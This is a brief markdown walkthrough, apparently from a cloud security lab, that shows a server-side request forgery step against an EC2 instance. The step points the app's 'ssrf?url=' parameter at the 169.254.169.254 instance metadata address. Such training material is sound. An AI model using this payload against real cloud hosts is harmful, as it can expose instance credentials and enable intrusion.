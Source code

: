 ## SSRF

>


##### Step 1:

* Open Browser and open `EC2` deployed instance `URL`

 
#### Step 2:

* In the URL type `<ec2 url>/ssrf?url=169.254.169.254/latest/metadata`


 

